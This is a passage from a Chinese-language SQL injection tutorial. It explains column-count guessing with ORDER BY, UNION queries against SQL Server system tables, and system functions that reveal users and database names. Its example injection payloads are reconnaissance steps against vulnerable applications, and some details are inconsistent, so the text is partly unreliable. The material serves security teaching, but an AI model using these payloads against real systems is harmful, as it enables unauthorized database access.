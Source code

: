 #### 3.ODER BY 猜测列数

可以用 ORDER BY 语句来判断当前表的列数。

如：

```sql
- SELECT * FROM users WHERE id = 1——SQL执行正常

- SELECT * FROM users WHERE id = 1 ORDER BY 1 (按照第一列排序)——SQL执行正常

- SELECT * FROM users WHERE id = 1 ORDER BY 2 (按照第二列排序)——SQL执行正常

- SELECT * FROM users WHERE id = 1 ORDER BY 3 (按照第三列排序)——SQL 执行正常

- SELECT * FROM users WHERE id = 1 ORDER BY 4 (按照第四列排序)——SQL 抛出异常
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190224203021906.png)

由此可以得出，当前表的列数只有 3 列，因为当按照第 4 列排序时报错了。在 Oracle 和 MySql 数据库中同样适用此方法。

在得知列数后，攻击者通常会配合 **UNION** 关键字进行下一步的攻击。

#### 4.UNION 查询

UNION 关键字将两个或多个查询结果组合为单个结果集，大部分数据库都支持 UNION 查询。但适用 UNION 合并两个结果有如下基本规则：

```
- 所有查询中的列数必须相同

- 数据类型必须兼容
```

+ 用 UNION 查询猜测列数
  不仅可以用 **ORDER BY** 方法来猜测列数，**UNION** 方法同样可以。
  
  在之前假设的 user 表中有 5 列，若我们用 UNION 联合查询：
  `SELECT * FROM users WHERE id = 1 UNION SELECT 1`
  数据库会发出异常：
  ![在这里插入图片描述](https://img-blog.csdnimg.cn/20190224203620105.png)可以通过递归查询，直到无错误产生，就可以得知 User 表的查询字段数：
  `UNION SELECT 1,2、UNION SELECT 1,2,3`
  
  也可以将 **SELECT** 后面的数字改为 **null**、这样不容易出现不兼容的异常。

+ 联合查询敏感信息
  在得知列数为 4后，可以使用一下语句继续注入：
  `UNION SELECT 'x', null, null, null FROM SYSOBJECT WHERE xtype='U'` (注：**xtype=‘U’** 表示对象类型是表)若第一列的数据类型不匹配，数据库会报错，那么可以递归查询，直到语句兼容。等到语句正常执行，就可以将 x 换为 SQL 语句，查询敏感信息。

#### 5.利用SQL Server 提供的系统函数

SQL Server 提供了非常多的系统函数，利用该系统函数可以访问 SQL Server 系统表中的信息，而无需使用 SQL 查询语句。

如：

```sql
SELECT suser_name()：返回用户的登录标识名
SELECT user_name()：基于指定的标识号返回数据库用户名
SELECT db_name()：返回数据库名
SELECT is_member(‘db_owner’)：是否为数据库角色
SELECT convert(int, ‘5’)：数据类型转换
SELECT database():返回当前数据库名
SELECT user()：返回当前用户名
```
